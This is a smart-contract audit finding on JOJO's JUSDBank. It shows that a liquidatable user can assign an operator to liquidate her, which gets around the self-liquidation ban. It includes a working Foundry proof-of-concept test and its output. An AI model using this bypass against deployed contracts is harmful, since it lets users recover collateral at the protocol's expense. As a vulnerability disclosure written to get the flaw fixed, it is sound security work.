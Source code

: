 0xbepresent

medium

# A liquidated user can assign an operator, then the operator can liquidates on behalf his client (the user who assigned him as operator), bypassing the `SELF_LIQUIDATION_NOT_ALLOWED` restriction

## Summary

The liquidated user can assign an operator, then the operator can liquidate on behalf of the user who assigned him as operator. The liquidated user can get his own liquidated collateral.

## Vulnerability Detail

There is a validation by the [isValidLiquidator()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L365) function where it checks the liquidated address must not be the liquidator address in the 366 code line. So the liquidated address can not be the liquidator.

```solidity
File: JUSDBank.sol
365:     function isValidLiquidator(address liquidated, address liquidator) internal view {
366:         require(
367:             liquidator != liquidated,
368:             JUSDErrors.SELF_LIQUIDATION_NOT_ALLOWED
369:         );
370:         if(isLiquidatorWhitelistOpen){
371:             require(isLiquidatorWhiteList[liquidator], JUSDErrors.LIQUIDATOR_NOT_IN_THE_WHITELIST);
372:         }
373:     }
```

The problem is that the liquidated address can assign an operator, then the operator can liquidate on behalf the liquidated address.

I created the next test:

1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
2. Alice can be liquidated because the collateral price is updated
3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
4. Alice assigns the operator "Jim".
5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"

```solidity
File: JUSDBankLiquidateCollateral.t.sol
200:     function testSelfLiquidationViaOperator() public {
201:         // Self liquidation via the client's assigned operator
202:         // 1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
203:         // 2. Alice can be liquidated because the collateral price is updated
204:         // 3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
205:         // 4. Alice assigns the operator "Jim".
206:         // 5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"
207:         //
208:         // 1. Alice deposit 10e18 mockToken1 and borrow 742e6 JUSD
209:         //
210:         mockToken1.transfer(alice, 10e18);
211:         vm.startPrank(alice);
212:         mockToken1.approve(address(jusdBank), 10e18);
213:         jusdBank.deposit(alice, address(mockToken1), 10e18, alice);
214:         jusdBank.borrow(7426e6, alice, false);
215:         vm.stopPrank();
216:         //
217:         // 2. Alice can be liquidated because the collateral price is updated
218:         //
219:         MockChainLink900 eth900 = new MockChainLink900();
220:         JOJOOracleAdaptor jojoOracle900 = new JOJOOracleAdaptor(
221:             address(eth900),//source
222:             20,//decimal correction
223:             86400,//heartBeat
224:             address(usdcPrice)//USDSource
225:         );
226:         jusdBank.updateOracle(address(mockToken1), address(jojoOracle900));
227:         swapContract.addTokenPrice(address(mockToken1), address(jojoOracle900));
228:         FlashLoanLiquidate flashLoanLiquidate = new FlashLoanLiquidate(
229:             address(jusdBank),
230:             address(jusdExchange),
231:             address(USDC),
232:             address(jusd),
233:             insurance
234:         );
235:         bytes memory data = swapContract.getSwapData(
236:             10e18,
237:             address(mockToken1)
238:         );
239:         bytes memory param = abi.encode(
240:             swapContract,//approveTarget
241:             swapContract,//swapTarget
242:             address(alice),//liquidator
243:             data//data
244:         );
245:         vm.startPrank(alice);
246:         bytes memory afterParam = abi.encode(
247:             address(flashLoanLiquidate),
248:             param
249:         );
250:         //
251:         // 3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
252:         //
253:         cheats.expectRevert("SELF_LIQUIDATION_NOT_ALLOWED");
254:         jusdBank.liquidate(
255:             alice, // Liquidated
256:             address(mockToken1),  //collateral used
257:             alice, //liquidator
258:             10e18, //10e18 amount
259:             afterParam,
260:             10e18 //expectedPrice
261:         );
262:         //
263:         // 4. Alice assigns the operator "Jim".
264:         //
265:         jusdBank.setOperator(jim, true);
266:         vm.stopPrank();
267:         console.log("Alice balance JUSD before liquidation:", IERC20(jusd).balanceOf(address(alice)));
268:         console.log("Alice balance USDC before liquidation:", IERC20(USDC).balanceOf(address(alice)));
269:         //
270:         // 5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"
271:         //
272:         // Now Jim can liquidate his client Alice
273:         vm.startPrank(jim);
274:         jusdBank.liquidate(
275:             alice, // Liquidated
276:             address(mockToken1),  // collateral used
277:             jim, // liquidator Jim
278:             10e18, //10e18 amount
279:             afterParam,
280:             10e18 //expectedPrice
281:         );
282:         console.log("");
283:         console.log("Alice balance JUSD after liquidation: ", IERC20(jusd).balanceOf(address(alice)));
284:         console.log("Alice balance USDC after liquidation: ", IERC20(USDC).balanceOf(address(alice)));
285:     }
```

Output:

```bash
Running 1 test for test/Impl/JUSDBankLiquidateCollateral.t.sol:JUSDBankLiquidateCollateralTest
[PASS] testSelfLiquidationViaOperator() (gas: 1782422)
Logs:
  Alice balance JUSD before liquidation: 7426000000
  Alice balance USDC before liquidation: 0
  
  Alice balance JUSD after liquidation:  7426000000
  Alice balance USDC after liquidation:  748888889
```

## Impact

The liquidated user can get his own liquidated collateral, so the [SELF_LIQUIDATION_NOT_ALLOWED](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L366-L369) restriction is bypassed.

## Code Snippet

- The [JUSDBank.liquidate()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L143) function
- The [JUSDBank.isValidLiquidator()](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/JUSDBank.sol#L365) function.

## Tool used

Manual review

## Recommendation

If the liquidated address assigns an operator, don't let the operator to liquidates the user who assigned him as operator.